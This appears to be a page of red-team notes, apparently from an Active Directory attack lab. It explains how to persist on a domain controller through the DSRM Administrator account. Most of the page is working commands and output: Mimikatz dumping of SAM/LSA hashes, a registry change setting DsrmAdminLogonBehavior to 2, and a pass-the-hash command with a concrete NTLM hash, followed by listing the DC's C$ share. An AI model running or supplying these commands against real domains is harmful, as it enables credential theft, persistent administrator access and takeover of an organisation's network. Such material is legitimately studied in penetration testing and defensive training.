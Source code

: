 

There is a local Administrator on every DC called "Administrator" whose password is the DSRM password(SafeModePassword).
This password is required when a server is promoted to Domain Controller and it is rarely changed
After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC

```powershell
#Dump DSRM password (needs DA privs)
Invoke-Mimikatz-Command '"token::elevate" "lsadump::sam"' -Computername dc
#Compare the Administrator hash with the Administrator hash of below command
Invoke-Mimikatz-Command '"lsadump::lsa/patch"' -Computernamedc
#First one is the DSRM local Administrator.


#Since it is the local administrator of the DC, we can pass the hash to authenticate. 
#But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
Enter-PSSession -Computernamedc 
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

#Use below command to pass the hash
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"' 
ls\\dc\C$
```

## Example

The Administrator user with RID 500 is the DSRM account 

By default this account cannot logon to the DC form the network, this can be changed with a reg entry



```powershell
[dc.abc.example.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\
Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD


DsrmAdminLogonBehavior : 2
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control
PSChildName            : Lsa
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry
```


Then from a powershell session on any other system in the domain, we can pass the hash as the DSRM Administrator


```powershell
PS C:\Windows\system32> cd \ad\tools

PS C:\ad\tools> . .\Invoke-Mimikatz.ps1

PS C:\ad\tools> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 20 2021 19:01:18
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::pth /domain:dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe
user	: Administrator
domain	: dc
program	: powershell.exe
impers.	: no
NTLM	: a102ad5753f4c441e3af31c97fad86fd
  |  PID  5552
  |  TID  4300
  |  LSA Process is now R/W
  |  LUID 0 ; 84723561 (00000000:050cc769)
  \_ msv1_0   - data copy @ 0000021A90637E70 : OK !
  \_ kerberos - data copy @ 0000021A9106A958
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000021A91036228 (32) -> null
```


From this session we can access the DC


```powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> ls \\dc.abc.example.local\c$


    Directory: \\dc.abc.example.local\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---       12/14/2019   8:23 PM                Users
d-----        9/15/2021   2:14 AM                Windows
```

